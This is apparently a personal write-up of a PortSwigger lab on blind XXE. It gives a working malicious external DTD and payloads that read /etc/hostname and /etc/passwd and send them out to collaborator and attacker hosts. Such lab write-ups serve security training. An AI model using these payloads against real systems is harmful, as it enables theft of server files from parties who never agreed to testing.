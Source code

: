# [Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

## Lab

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the  `/etc/hostname` file.

## Analysis

check stock request:

```http
POST /product/stock HTTP/1.1
Content-Length: 107
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

the body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```

## tools

- burpsuite scanner: detected `Issue: External service interaction (HTTP)`

  - request

  ```xml
  <?xml version="1.0" encoding="UTF-8" standalone='no'?>
  <!DOCTYPE stockcheck [<!ENTITY % d1964 SYSTEM "http://adryohq4xmilalscvl1acdafw62x1lr9qxho4es3.oastify.com">%d1964; ]>
  <stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
  </stockCheck>
  ```

## Solutions

craft a malicious DTD at exploit-server/exploit.dtd:

  ```xml
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
  %eval;
  %exfiltrate;
  ```

- `eval`: dynamic declaration of the exfiltrate entity
- `%eval`: perform dynamic declaraction of exfiltrate entity
- dynamic declaraction:
  - `&#x25;` => `%`
  - `%file;` => content of `"file:///etc/hostname"`

xxe:

```xml
<?xml version="1.0" encoding="UTF-8" standalone='no'?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-id.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

## failed attempts

- don't use external DTD:

  ```xml
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % exfiltrate SYSTEM 'https://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>
  %eval;
  %exfiltrate;
  ```

  - the `%file` is just treated as string => failed

- blocked:

  ```xml
  <!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY %eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
  %eval;
  %exfiltrate; ]>
  ```

  - `&#x25` => `"Entities are not allowed for security reasons"`
